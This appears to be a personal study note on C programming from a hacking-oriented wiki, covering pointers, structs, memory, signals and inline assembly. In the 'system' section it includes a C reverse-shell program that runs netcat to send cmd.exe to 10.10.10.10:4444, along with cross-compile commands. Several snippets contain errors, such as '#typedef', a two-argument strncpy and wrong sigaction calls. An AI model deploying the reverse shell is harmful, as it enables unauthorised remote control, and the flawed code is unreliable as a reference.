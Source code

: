 # Useful C 

[[Valgrind]] and [[GDB]]/[[Microsoft-Visual-Studios]] your code! 

Function with `n` are generally safer that those without

```c
#include <stdlib.h>
#include <string.h>

// Both used to create aliases
#define macro // preprocessor directive (search and replace before compilation)
#typedef custom_types

#typedef struct one_alias {

}another_alias; // you can use either, which is a weird


char str_a[20];

strncpy(str_a, "Hello, Internet\n"); // \n null byte require for string termination

#typedef return_type_of_function (*pointer_to_a_function)(parameters_of_a_function);


```

Stack Versus Heap variable declaration
```c
// stack variables are declared like this:
int stackVariable = 69;

// malloc return a pointer to heap variable and takes a int as size 
int *heapVariable = malloc(sizeof(int));
// then needs to have a value assigned:
*heapVariable = 69;
// Alway free memory after use
free(heapVariable);
```

Sizes and ranges of `int` types
```c
unsigned int four_bytes; // range 0 to 4,294,967,295 (32-bit)
signed int four_bytes; //-2,147,483,648 to 2,147,483,647 (32-bit)
unsigned short int two_bytes; // 0 to 65,535
signed short int two_bytes; // -32,768 to 32,767
unsigned long int four_bytes_32bit_eight_bytes_64bit; 
signed long int four_bytes_32bit_eight_bytes_64bit; 
```

Structs
```c
struct rectangle {
  int width;
  int height;
};
 struct rectangle my_rec = { 1, 2 }; // Fields can be initialized immediately

  // Access struct members with .
  my_rec.width = 10;
  my_rec.height = 20;

  // You can declare pointers to structs
  struct rectangle *my_rec_ptr = &my_rec;

  // Use dereferencing to set struct pointer members...
  (*my_rec_ptr).width = 30;

  // ... or even better: prefer the -> shorthand for the sake of readability
  my_rec_ptr->height = 10; // Same as (*my_rec_ptr).height = 10;
```

Pointers - [recommended viewing Dave's Garage Youtube video](https://www.youtube.com/watch?v=IrGjyfBC-u0) 
- `32-bit points = 4 bytes`
- `64-bit points = 8 bytes`
	- Beware [Windows: 32-bit integers, 64-bit pointers source: news.ycombinator.com](https://news.ycombinator.com/item?id=32566874)
```c
// Pointer are stored memory addresses, they point to memory address where values are stored
// Indirection - a pointer hold the address of values 
// Data at that address that the pointer is pointing to can be access and tranformed

// create a pointer of type byte pointing to memory address 4321;
byte * myPointer = (byte *) 4321;
// Change the value at the point
*myPointer = 0;

// class.memberVariable is member variable of the class 
class->memberVariable // goto to the object pointed to and then get member variable by this name, indicates a pointer to the object, not reference to itself!

// if you do not need to retrieve an entire struct in a function call use pointers
// Passed-by-value retrieve a complete copy, Passed-by-Reference means passing an object in the form of pointer
// One entire structure Vs. One or more Pointer  
int getTotalTheMemberVars(someStruct * pStruct)
{
	return pStruct->PointersToOtherPointers + pStruct->PointersToOtherStructs;
}

// Pointer pointing to the first element of an Array in memory, with the length of the array is like using the array without loading it on to the stack
// The array is "syntactic sugar" for the memory address
// char * contains the address of the first byte of a string in memory
// The size of an array is its actual size, where the pointers is system dependent 32-bit and 64bit
char someText[] = "Subscribe to Dave's Garage on Youtube, he bought Pinball on Windows amongst alot other things!"; // \x00 terminates a string! 
char * pSomeText = someText; 
int aPinballLoses[] = { 1, 2, 3, 4, 5};
int * pPinballLoses = aPinballLoses;

// Pointer arithmetic
// Move by the size of the type that it points to, not one byte!
// Increments point by a single byte
pSomeText++; // One char is one byte move 1 * 8 bits = 1 byte
pPinballLoses++; // 32-bit integers is a 4 byte move 8 + 8 + 8 + 8 or 4*8 = 32 

// Pointers to pointers
//pIndirectPlugOfThePlugOfTheVideo 
//Points to...
//pMicrosoftAndAIModelsIntoResurrectingPinball
char * pMicrosoftAndAIModelsIntoResurrectingPinball = "Microsoft putting Pinball on Windows 11 will make some people switch Windows 11";
char ** pIndirectPlugOfThePlugOfTheVideo = &pMicrosoftAndAIModelsIntoResurrectingPinball;
// So
return *pIndirectPlugOfThePlugOfTheVideo;
// will just return ... pMicrosoftAndAIModelsIntoResurrectingPinball 


// Null != Uninitialised != Void pointer 
// Null pointer points to 0, it is initialed to 0
// Uninitialised pointer random value till it is initialised
// Void pointer is just the address and is not type defined and must be cast to a object pointer before use. It assigned nil type information. Malloc API has allocate memory that can then be told what type of object will stored at that memory
void*
// Hacking the Art of Exploitation - page 55
int void_pointry() 
{
	int i;
	char char_array[5] = {'a','b','c','d','e'};
	int int_array[5] = {1,2,3,4,5}
	char *char_pointer;
	int *int_pointer;
	char_pointer = (char *) int_array; // Typecast into 
	int_pointer = (int *) char_array; // pointer's data type
	for (i=0; i <5; i++) {
		printf("[integer pointer] points to %p, which conatins the char '%c'\n", int_pointer, *int_pointer);
		printf("[char pointer] points to %p, which conatins the int '%c'\n", char_pointer, *char_pointer);
		int_pointer = (int *) ((char *) int_pointer +1);
		char_pointer = (char *) ((int *) char_pointer +1);
	}
}

// Function Pointer is a pointer to a function 
// Beware readability
int add(int a, int b) 
{
	return a + b;
}
// (*pAdd) requires brackets for operator precedence
int (*pAdd)(int,int) = add;
// Bracket are also required for calling a function pointer
int sum = (*pAdd)(5, 3);

```

Processes - Unix
```c
#include <signal.h>
// This is more portable
#include <sigaction.h>


// Handler is a function
// User defined signals
SIGUSR1;
SIGUSR2;
// SegFault Signal
SIGSEGV;

sigaction(SIGINT, handler);
sigaction(SIGTERM, handler);

signal(SIGINT, handler);
signal(SIGTERM, handler);
// SIGKILL cannot be handler - ordered not a request
```

Simple use system to call another binary - see [[Compiling-Exploits]]
```c
#include <stdlib.h>
//#include <stdafx.h> speeds up compile time
// i686-w64-mingw32-gcc shell.c -o shell.exe
// x86_64-w64-mingw32 shell.c -o shell.exe

// Originally from https://snowscan.io/htb-writeup-giddy/#
// But you could replace the system call with anything
int main()
{
    system("nc.exe -e cmd.exe 10.10.10.10 4444");
    return 0;
}
```

[Inline](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html) [[x86-Assembly]], or [[x86-64-Assembly]] - for size considerations see [Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm); The `asm` keyword is a GNU extension. When writing code that can be compiled with [`-ansi`](https://gcc.gnu.org/onlinedocs/gcc/gcc-command-options/options-controlling-c-dialect.html#cmdoption-ansi) and the various [`-std`](https://gcc.gnu.org/onlinedocs/gcc/gcc-command-options/options-controlling-c-dialect.html#cmdoption-std) options, use `__asm__` instead of `asm` (see [Alternate Keywords](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/alternate-keywords.html#alternate-keywords)).
```c
int inlineThis() 
{
	// The optional `volatile` qualifier has no effect. All basic `asm` blocks are implicitly volatile.
	__asm__ volatile (" ") X
	// If you use the `inline` qualifier, then for inlining purposes the size of the `asm` statement is taken as the smallest size possible
	__asm__ inline (" " )
}

```
## References

[Windows - C Language Reference](https://learn.microsoft.com/en-us/cpp/c-language/c-language-reference?view=msvc-170)
[GCC](https://linux.die.net/man/1/gcc)
[XinYminutesC](https://learnxinyminutes.com/docs/c/)
[Jacob Sorber Programming with Processes](https://www.youtube.com/playlist?list=PL9IEJIKnBJjFNNfpY6fHjVzAwtgRYjhPw)
[Size of an asm](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html#size-of-an-asm)
[Inline Assembly Lanaguage in C Code - gcc.gnu.org](https://gcc.gnu.org/onlinedocs/gcc/extensions-to-the-c-language-family/how-to-use-inline-assembly-language-in-c-code.html)
[Hacking: The Art of Exploitation, 2nd Edition 2nd ed. by Erickson, Jon (ISBN: 0689145714418)](Hacking: The Art of Exploitation, 2nd Edition 2nd ed. by Erickson, Jon (ISBN: 0689145714418)
[news.ycombinator.com: Windows: 32-bit integers, 64-bit pointers](https://news.ycombinator.com/item?id=32566874)